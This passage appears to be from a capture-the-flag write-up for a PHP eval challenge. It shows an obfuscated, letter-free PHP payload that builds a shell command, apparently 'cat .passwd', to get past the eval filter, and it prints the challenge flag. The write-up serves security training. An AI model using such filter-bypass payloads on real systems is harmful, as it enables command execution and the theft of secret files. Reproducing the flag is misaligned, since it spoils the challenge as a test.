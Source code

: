 ```
$__=$_;
++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;

$____='';
++$__;++$__;
$____.=$__;
$__=$_;
$____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$____.=$__;
$__=$_;

$______='.';
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$______.=$__;
$__=$_;
$______.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$______.=$__;
$______.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$______.=$__;
$__=$_;
++$__;++$__;++$__;
$______.=$__;
$__=$_;
$__________ = $____." ".$______ ;
$___($_____($__________ ))
```

![image](https://hackmd.io/_uploads/rJKWLpgWkx.png)

flag: `M!xIng_PHP_w1th_3v4l_L0L`

## PHP - Eval - Advanced filters bypass

## Java - Spring Boot
